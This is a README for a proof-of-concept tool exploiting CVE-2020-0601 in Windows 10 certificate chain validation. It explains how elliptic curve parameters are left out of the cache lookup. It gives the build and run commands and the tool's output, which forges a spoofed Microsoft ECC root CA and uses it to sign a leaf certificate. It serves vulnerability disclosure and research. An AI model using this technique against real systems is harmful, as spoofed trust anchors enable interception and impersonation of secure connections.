 # CVE-2020-0601 proof of concept

A fun proof of concept to create your own root CA and signed certificate based
on the CVE-2020-0601 vulnerability in Windows 10. The basis for the issue is
the `CertGetCertificateChain()` method improperly validated root certificate
authorities. Since the search for a signing certificate within the trust store
can be expensive, Microsoft implemented a cache which used the public key of
the provided root certificate to determine if this certificate had previously
been loaded from the trust store. However, for elliptic curve certificates, the
SubjectPublicKeyInfo contains more than just a public key. Elliptic curve
certificates must reference the specific elliptic curve (or provide their own
custom elliptic curve parameters). The vulnerability occurs because the
elliptic curve parameters are not included in the cache lookup. We can take an
existing public key, choose a new private key, compute curve parameters which
make this combination valid, and create a root certificate that will pass
Microsoft's previously vulnerable cache lookup.

This repository demonstrates spoofing the "Microsoft EV ECC Root Certificate
Authority 2017" trusted root certificate and using this new root CA to sign a
leaf certificate.

![Proof of concept certificate shown in Internet Explorer.](assets/proof-of-concept.png)

## Build

```
docker build -t gringotts .
```

## Usage

```
$ docker run --rm -it -v "$(pwd):/host" -w /host gringotts
Modified generator:
04bb3de13398a18e1c0d1a2d77ae8cbb9ea358d8c5c075eac51e0c408a0367db2ba187f1ab2febd8859d4c12811563fae6056fef803bff43964ca15c63a28cdc1fdfd38dab9fac20e7a8fa1fae619e576ee5706423414a3c3f8c7e1a2d8adc9cd7
Serializing root.txt and self-sign root certificate
Writing ca/root.pem
Serializing root private key
Writing ca/root-key.pem
read EC key
writing EC key
Generating a RSA private key
...............................................+++++
.........................................................................................+++++
writing new private key to 'ssl/server-key.pem'
-----
Using configuration from /usr/lib/ssl/openssl.cnf
Check that the request matches the signature
Signature ok
Certificate Details:
        Serial Number:
            7c:e6:11:18:1c:5a:14:3e:6f:f0:e2:85:ea:5f:c7:dc:50:a4:b9:b2
        Validity
            Not Before: Apr 30 00:00:00 2018 GMT
            Not After : Aug  1 00:00:00 2020 GMT
        Subject:
            countryName               = GB
            stateOrProvinceName       = Scotland
            localityName              = Highlands
            organizationName          = Gringotts
            organizationalUnitName    = Hogwarts Castle
            commonName                = hogwarts.lf.lc
        X509v3 extensions:
            X509v3 Subject Alternative Name:
                DNS:hogwarts.lf.lc
Certificate is to be certified until Aug  1 00:00:00 2020 GMT (184 days)

Write out database with 1 new entries
Data Base Updated
$ tree
.
├── ca
│   ├── root-key.pem
│   └── root.pem
└── ssl
    ├── server-bundle.pem
    ├── server-key.pem
    └── server.pem
```

